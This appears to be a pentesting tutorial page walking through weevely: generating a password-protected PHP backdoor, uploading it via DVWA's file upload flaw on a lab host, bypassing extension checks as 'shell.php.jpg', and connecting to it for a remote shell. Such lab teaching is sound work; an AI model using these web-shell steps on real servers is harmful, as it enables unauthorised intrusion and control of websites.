 -----

* title: weevely
* description: This article is dedicated to weevely.
* created: 26-07-2021 09:30:00
* modified: 26-07-2021 09:30:00
* keywords: security, hacking, php, script, website, pentesting, hacking
* lang: en

-----

# Introduction

With the `weevely` tool you can easily abuse File Upload Vulnerabilities. 
With this tool you can easily create a PHP backdoor, if of course, the 
target server is using PHP and has some kind of File Upload Vulnerability.

More info here: https://github.com/epinna/weevely3 and check the 
documentation on the github wiki.

To resume:
    
    # Generate a PHP backdoor
    weevly generate [PASSWORD] [FILENAME]

    # Upload the PHP file to a vulnerable webserver

    # Connect to the backdoor system
    weevly [URL_BACKDOOR_PHP_FILE] [PASSWORD]

    # You have access to the backdoor, use help for help
    help

The `Damn Vulnerable Web App!` (`DVWA` for short) is a good place to try out 
`weevly`.  For instance, on the `DVWA` upload section is a good try out. 
Remember that the default username is `admin` and the password is `password` 
for `DVWA`.

For the example shown here, note that the `DWA Security` level need to be 
set to `low` for this to work. By default, it is set to high. However, when set to 
high, rename the script and add `jpg` behind the `php` extension and upload it as 
`shell.php.jpg`. You can adjust the security level in the left menu. The 
website checks for the file extensions, but the backend system allows us to 
still execute the `php` file even if it has the `jpg` extension.

The testing part is here:

http://10.0.2.7/dvwa/vulnerabilities/upload/

![alt text](imgs/weevely_1.png "DVWA Uplad section")

There you can first try out to upload an image as they expect image upload 
only, select an image and press the `upload` button.

Which result in:

![alt text](imgs/weevely_2.png "DVWA Uplad section")

The interesting part in the upload information result is this path 
information `../../hackable/uploads/image_example.jpg` which should be never 
displayed. We can see that the image has been uploaded 2 directories higher, 
and then in the directory `/hackable/uploads/`.

If we look to the URL which is http://10.0.2.7/dvwa/vulnerabilities/upload/#, 
we can now try to go on http://10.0.2.7/dvwa/hackable/uploads/image_example.jpg 
to see if the image is accessible. And we you can see, the image is been 
accessible.

So let's try to upload a PHP backdoor by making use of `weevely` to generate 
our `php` script which will allow us to have shell access on the website. 
For this in a console type the following:

Syntax is as following:

    weevly generate [PASSWORD] [FILENAME]

Example:

    weevely generate 123456 /home/itchy/shell.php

Go back to the `DVWA` website, and in the upload section upload that 
`shell.php` file. 

When we go to the link http://10.0.2.7/dvwa/hackable/uploads/shell.php
we will see a blank page, but not a `404` or any other error message. So all 
fine so far.

Now we can try to obtain some shell with the following command:

    weevely http://10.0.2.7/dvwa/hackable/uploads/shell.php 123456

You will get a shell access and will be able to do whatever we want:

*Note that there's some error in the shell but it does work fine: 

    The remote script execution triggers an error 500, check script and payload integrity*

*I have created a bug report for the little error message we see 
on screen https://github.com/epinna/weevely3/issues/151*

![alt text](imgs/weevely_3.png "DVWA Uplad section")

Press `ctrl+c` to get out of the backdoor shell.
